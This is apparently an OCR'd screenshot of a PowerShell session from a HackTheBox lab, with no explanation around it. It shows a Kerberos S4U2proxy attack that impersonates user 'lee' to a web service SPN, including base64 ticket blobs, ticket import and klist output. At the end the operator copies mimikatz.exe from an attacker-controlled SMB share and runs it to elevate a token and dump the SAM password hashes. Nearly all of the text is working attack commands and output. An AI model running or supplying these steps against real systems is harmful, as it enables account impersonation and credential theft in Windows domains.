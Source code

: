 ```powershell
      Y2mB6ccW0irHoGwoEO3ovub4LlL90R0641aCtWJ3qNZSjBmCjbhiMCdKzo9oYcAdTA++B7jLOIpJySJk
      3B8iLSXfH8o1LmE1cyCZI50fAyChYVvAQ9JaNAjG7r9AIdUaPbSCjshwc2nwKyCJMBGREyCMwJz6qUJx
      X/dLLvRgs3MQG8aRSde/gHeuGapk2Ag44KhbkLnJ5cMt8aae3NFsdvNiyCB0GaoUucXof0QoKIBS8XP2
      xPHqe9uuxD9TeX037Vgz9Fs0Y7L+Uqm64vUsk9f+2kgl2yN31dRlgHADCuKQ85X70XE/8YZvu/zTrorF
      xQYZUQA5sl2PyxDor6Mhx/Otv2tUVPR7HHk5/ZwBy9cXvPG4mhY6pI4ALlIaPKnLSp5cCKCEZq5RY/V/
      35O9t3g6n0IQRUsTACk6TuWiR6A9DaQspqFESe35jVnno4HGMIHDoAMCAQCigbsEgbh9gbUwgbKgga8w
      gawwgamgGzAZoAMCARehEgQQYDTbN6b1VNBxmveWBs3KAaELGwlIVEIuTE9DQUyiEDAOoAMCAQqhBzAF
      GwNsZWWjBwMFAAChAAClERgPMjAyMzA0MjkwMjQxMTBaphEYDzIwMjMwNDI5MTI0MTEwWqcRGA8yMDIz
      MDUwNjAyNDExMFqoCxsJSFRCLkxPQ0FMqRwwGqADAgEBoRMwERsPYXR0YWNrZXJzeXN0ZW0k

[*] Impersonating user 'lee' to target SPN 'http/web.htb.local'
[*] Building S4U2proxy request for service: 'http/web.htb.local'
[*] Using domain controller: dc1.htb.local (192.168.3.203)
[*] Sending S4U2proxy request to domain controller 192.168.3.203:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'http/web.htb.local':

      doIFWjCCBVagAwIBBaEDAgEWooIEezCCBHdhggRzMIIEb6ADAgEFoQsbCUhUQi5MT0NBTKIgMB6gAwIB
      AqEXMBUbBGh0dHAbDXdlYi5odGIubG9jYWyjggQ3MIIEM6ADAgESoQMCAQmiggQlBIIEIX1Q3yZ6k49P
      Tkk0jwxgepK5+bay2wgBWgBzTEtqVvgRqYmPnundz4SyT2EGGwb/O/eLXulnazIFUvhSgMWNakHnW2FM
      RJB/zAcdI24hYf0pA6p4dbzECn0hZbyd0JWfLwZwUjaR4a9lpWlLCwF+OEmm/vGEXzk9p/MtgB9U+jr0
      vPjyS8CoHNe9jzI0ZXb3xm0OngEzwm2WI+LnkbMEtSoWT1M0oG19MDPXcvMpR+k2wDiMSh/JoNC4Bh58
      1zZ1QlrmZwYp1ncsDUjjwdrZB/fNrSJTvXSdUe4TqvwFTN1ycmrnQo+GfaR2PCCCxo6G+QnNNc2lz6e6
      v/Xy0PbQeDfQMPPzASxUUhSDG5J6nhj5Z9BWdG0HFRxy7w9UT/ZupxhNkl3RmZPScRiiGkkYRal6t5Bm
      6oB0rLYcV81CYP/QHFMXE1kiksHEAYcXBQ2bmVY6wnqlMxU06lCMslh4yCY3G0vLdMZ5ZuUGT6Zdinq7
      dGnzBobG4VtXVvEE4AikgwzrL1RjcPxbUKYnhZlu7QXpPZty178kprN8UL+J9pXnH2QTLYwEB6Qiofsk
      V24h+gEFtYMyEVCgbTrkJfV5Y52m+2g8Es4m8vqXjJPbspNrmpzzNnVVDGrc0/I8BG1pH1cUeBLs7ToL
      Upfrrf3Q/NRyIl2inlVbdJa67noQcvv+lUZKEyoVsV+T0TmOX+UV5OPX9ujy0+sjAjVJI4mttrHse2Xe
      BHKwKNv4Sa5EBzZyK3L+t474SdA3bSOvcRvxCmtsLPlTH0xOGnsZtpNCvZrtVGxF/uKrdf8xFF1NxjZA
      RHWIiq/olNv6i6flfddlZd6ZJaIZEnvTmJCy84eGWfdrGaI3Ls0L/wxeZBoe+VccxsGesaqMgg+hUyoQ
      u/7W8z5OnnkGsfrDJKWtuOFUBbvyGcail08Ior4m1tjaijJtDrJssZGBBFPpNcrwCzx4WShBiN55q8m6
      FytVUewGCZ8UH40dP7SXglYVvTjn+8ms3YmAhC1fDOdvaLLQNbQRetjM7zqy7s+5dHI/VSsr/X7qhZ+y
      qNki5iBXq7x213m/fUygpGr5ZYP8DDun9g2mjvTVEfZFCDMpoTMZa7yHey0VVQ2ZqVfo/HZ3n8zKscEh
      2bZyuelLhzaNKuOZSQ3vYSvRUdxpW9ktcJNYRLsHsuviy39QJZe2sUg7PeI/1i7+wGp11KgbATJGP+zI
      WpoCYfaM753nY6AqT9fHb/zeULpz1QYCaqH95KwuaFbg+iyP+DyW5HonK1V5n/PTsr8YVSE+2le2Suo6
      vADTfU9MdOfy3jsA/lBaTsanI4PH/aLjpUg6rjj9vpyx09wzoE+BCyMmGUPHi9rbgj2pMtLfW2t+7/9r
      sn6XUfPMJePjcwPtdnFUZxOYR2TjphcBsPXOx+WjgcowgcegAwIBAKKBvwSBvH2BuTCBtqCBszCBsDCB
      raAbMBmgAwIBEaESBBBmVAONy74l2UlQd+yjzrU1oQsbCUhUQi5MT0NBTKIQMA6gAwIBCqEHMAUbA2xl
      ZaMHAwUAQKEAAKURGA8yMDIzMDQyOTAyNDExMFqmERgPMjAyMzA0MjkxMjQxMTBapxEYDzIwMjMwNTA2
      MDI0MTEwWqgLGwlIVEIuTE9DQUypIDAeoAMCAQKhFzAVGwRodHRwGw13ZWIuaHRiLmxvY2Fs

[+] Ticket successfully imported!

PS C:\Users\Administrator\Documents> klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>	Client: lee @ HTB.LOCAL
	Server: http/web.htb.local @ HTB.LOCAL
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize  


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>